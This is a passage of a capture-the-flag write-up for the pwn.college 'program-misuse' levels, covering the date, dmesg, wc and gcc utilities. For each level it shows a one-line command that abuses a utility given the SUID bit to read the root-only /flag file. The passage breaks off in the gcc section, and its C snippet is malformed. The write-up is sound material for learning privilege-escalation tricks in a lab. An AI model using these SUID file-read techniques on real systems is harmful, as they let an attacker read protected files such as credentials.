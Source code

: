 > I just set the SUID bit on /usr/bin/date.\
> Try to use it to read the flag!

The `date` utility displays the current time.

If we provide the `/flag` file to `date`, it prints out the flag within the error message.

```
hacker@program-misuse~level45:/$ date -f /flag
```

&nbsp;

## dmesg

> I just set the SUID bit on /usr/bin/dmesg.\
> Try to use it to read the flag!

`dmesg` is used to examine or control the kernel ring buffer.

We can use the `-F` option to specify a file to read from.

```
hacker@program-misuse~level46:/$ dmesg -F /flag
```

&nbsp;

## wc

> I just set the SUID bit on /usr/bin/wc.\
> Try to use it to read the flag!

The `wc` command is used for word counting.

We can use the `--files0-from` option such that the flag is printed out in the error message.

```
hacker@program-misuse~level47:/$ wc --files0-from=/flag
```

&nbsp;

## gcc

> I just set the SUID bit on /usr/bin/gcc.\
> Try to use it to read the flag!

The `gcc` utility is used for preprocessing, compilation, assembly and linking files.

Let us write a simple C script.

```c
#include </flag>

int main {
	puts("Hello");
}
```
